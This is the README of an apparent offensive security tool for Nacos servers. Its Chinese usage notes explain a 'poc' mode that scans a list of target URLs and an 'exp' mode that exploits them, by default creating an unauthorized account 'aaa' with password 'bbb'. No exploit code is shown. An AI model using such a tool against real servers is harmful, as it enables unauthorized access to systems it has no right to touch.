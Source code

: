 # Nacos-Secretkeys-poc-exp

    使用说明：
            python unauth-nacos-key.py poc filename                     
            以poc模式对地址进行扫描
            
            python unauth-nacos-key.py exp filename username password    
            以exp模式对地址进行扫描(usernme,password可不写，默认创建账号aaa，密码bbb)
            
            文件中的地址格式如下(脚本没有对输入文件进行处理，只能以特定格式输入)： 
            http://192.168.1.1/
            http://192.168.1.2/
            http://192.168.1.3/
